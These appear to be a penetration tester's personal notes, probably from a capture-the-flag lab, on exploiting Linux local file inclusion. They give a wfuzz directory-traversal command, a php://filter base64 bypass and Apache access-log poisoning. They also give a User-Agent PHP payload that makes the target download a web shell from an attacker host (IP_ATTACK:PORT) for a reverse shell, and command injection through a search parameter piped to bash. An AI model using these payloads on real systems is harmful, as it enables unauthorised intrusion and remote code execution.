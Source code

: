 - Linux File Inclussion
	- Check the `url` adding parameter `file`

![](./img/Pasted%20image%2020240213235821.png)

---

- FUZZ it using this command:
	- [Useful wordlist found here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/)

```shell
wfuzz -c -w dirTraversal.txt  --hw 0 http://10.10.70.109/?view=FUZZ
```

---

- If the backend is filtering by checking the input, try this:

```shell
http://IP/?view=php://filter/FOLDER/convert.base64-encode/resource=index
```

- Check out the &ext variable and put it empty because it won't get the file extension

---

- Log file contamination

```shell
http://IP/?view=dog../../../../../cat/../var/log/apache2/access.log&ext=
```

---

- Exploit the User-Agent Field:
	- First create a shell like the PentestMonkey one
	- Create a python server
	- Load the petition (like log file contamination petition) and capture it with BurpSuite
	- Modify the User-Agent field with this command:

```shell
<?php file_put_contents('shell.php', file_get_contents('http://IP_ATTACK:PORT/shell.php'))?>
```

- Then access to `http://IP/shell.php` and you got the reverse shell

---

When we can echo commands try and it's using a regex like: `/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/` try:

```shell
http://IP_HOST/echo.php?search=id+|+bash
# Then just try other commands like
echo.php?search=ls+|+bash
# Then try to input a reverse shell
```